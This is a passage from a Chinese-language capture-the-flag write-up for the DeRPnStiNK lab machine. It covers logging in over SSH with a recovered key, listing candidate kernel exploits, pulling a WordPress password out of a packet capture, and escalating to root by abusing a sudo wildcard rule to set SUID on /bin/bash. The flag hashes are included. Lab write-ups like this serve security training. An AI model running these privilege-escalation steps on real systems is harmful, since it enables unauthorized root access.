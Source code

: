 chmod 600 key.txt
ssh -i key.txt -o PubkeyAcceptedKeyTypes=+ssh-rsa stinky@192.168.10.158

```
stinky@DeRPnStiNK:~$ find / -name flag*.txt 2>/dev/null
/home/stinky/Desktop/flag.txt

flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)

```

## flag4

枚举出可能存在的内核漏洞：

```
[1] af_packet
    CVE-2016-8655
    Source: http://www.exploit-db.com/exploits/40871
[2] exploit_x
    CVE-2018-14665
    Source: http://www.exploit-db.com/exploits/45697
[3] get_rekt
    CVE-2017-16695
    Source: http://www.exploit-db.com/exploits/45010
```

这里没有尝试出可以提权的内核 exp。

寻找其他提权方式，在 /home/stinky/Documents/ 中找到了一个抓包文件：derpissues.pcap，传输到 kali 上，用 wireshark 打开，看是否有敏感信息。跟踪 Tcp 流，发现 wp-login 的 POST 请求：

```
POST /weblog/wp-login.php HTTP/1.1

log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

用户名：mrderp，密码：derpderpderpderpderpderpderp，这个密码可能是对应系统用户的密码，尝试用 su mrderp 切换用户，成功。

```
sudo -l

(ALL) /home/mrderp/binaries/derpy*
```

但是这个目录不存在，我们可以创建一个，就可以读取/root 中的 flag：

```
mkdir binaries
cd binaries/
echo 'chmod +xs /bin/bash' > derpy
sudo /home/mrderp/binaries/derpy
/bin/bash -p
id
uid=1000(mrderp) gid=1000(mrderp) euid=0(root) egid=0(root) groups=0(root),1000(mrderp)

bash-4.3# cd Desktop
bash-4.3# ls
flag.txt
bash-4.3# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo
```